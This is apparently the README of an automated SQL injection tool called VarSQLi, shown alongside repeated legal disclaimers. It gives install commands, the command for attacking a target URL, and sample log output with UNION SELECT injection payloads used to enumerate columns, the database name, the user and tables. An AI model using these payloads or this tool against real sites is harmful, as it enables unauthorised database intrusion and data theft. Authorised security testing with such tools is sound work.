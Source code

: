 # Variable-SQL-Injection
> - _admin_ : [Twitter](https://twitter.com/Anonym0us_VNPC)
> - _Website_ : [Ghost Man](https://ghostmanews.blogspot.com)

VarSQLi allows users to search for and exploit SQL injection vulnerabilities automatically. The tool employs techniques such as input string testing, SQL syntax analysis, and SQL statement testing to determine if a system is susceptible to SQL injection.
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/Screenshot_2023-08-02-14-41-26-65.jpg">

> However, using VarSQLi or any other database exploitation tool to attack someone else's database is illegal and can have serious consequences. Illegally accessing someone else's database may violate information security regulations and ethical standards in information technology.

Using VarSQLi or any unauthorized database exploitation tool can lead to imprisonment and criminal liability. We must adhere to security regulations and policies, respect privacy rights, and refrain from compromising others' systems and data.

> Instead of relying on database exploitation tools, we should focus on enhancing our knowledge of security, understanding common security vulnerabilities, and implementing security measures to protect our systems and data. Collaborating with security experts and complying with legal regulations will ensure safety and ethical use of information technology

# setup x install tool
To set up VarSQLi, follow these steps:

1. Clone the VarSQLi repository from GitHub using the following command:
2. `git clone https://github.com/Phamchie/varsqli`
3. Navigate to the VarSQLi directory:
4. `cd varsql`
5. Install the required dependencies by running the setup script:
6. `python3 setup.py`
7. `python3 varsqli.py --help`
- Full Source Setup
```
git clone https://github.com/Phamchie/varsqli/
cd varsqli
python3 setup.py
python3 varsqli.py --help
```
Once the setup is complete, you can start using VarSQLi to identify and exploit SQL injection vulnerabilities. However, always ensure that you have proper authorization and adhere to legal and ethical guidelines when conducting security assessments.

# How To Injection - Exploit ?
1. You can see that in the `--help` section, there is only one mode, `--url` to update the url to attack
```
              ___
 _____         H  _____     _ _  {1.1.5}
|  |  |___ ___[,]|   __|___| |_|
|  |  | .'|  _[(]|__   | . | | | {Pham Chien}
 \___/|__,|_| [)]|_____|_  |_|_|
               V         |_|  ghostmanews.blogspot.com


[+] Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.

usage: varsqli.py [-h] [--url URL]

VarSQLi - Auto SQL Injection tools

options:
  -h, --help  show this help message and exit
  --url URL   URL Target (ex :
              https://test.com/yourpath_vulnsqli.php?id=1)
```
3. To attack the target , you write the command :
4. `python3 varsqli.py --url < url vulerable >`
5. the result will be
```
[INFO] Testing connect to target url..
[INFO] Testing IF the target url content is stable
[INFO] Target is the content stable..
[INFO] Testing 'Generic atline queries'..
[INFO] Testing 'UNION SELECT NUMBER COUNT COLUMNS (MySQL Select).'
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2--+-'
[INFO] Total Response Content HTML stable : 200 OK
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2,3--+-'
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-49-50-36.jpg">

1. it is starting to attack, and after a while exploiting with UNION SELECT payloads to get the column number of the website, it will announce like this
2. it is the number of columns, payload , target, user , database and the target's MySQL version
<img src="https://github.com/Phamchie/varsqli/blob/main/.github/workflows/Screenshot_2023-08-02-14-50-17-53.jpg?raw=true">

1. like last version, we don't have the feature to print database name and MySQL user, but i guarantee that the latest update version of too right now will have that feature 😃..
2. :)
3. and here is the target database of tables and columns that VarSQLI has exploited
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-50-35-49.jpg">

1. so we've come to the end, so what's the ending?
# Ending ?
A tip and note to use :
1. Can you see how dangerous the SQL injection vulnerability is, here is a piece of advice for you, this tool is only for the nature, is to show the database name, and will never provide  dump database for users only, to ensure the security of network security
> Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.
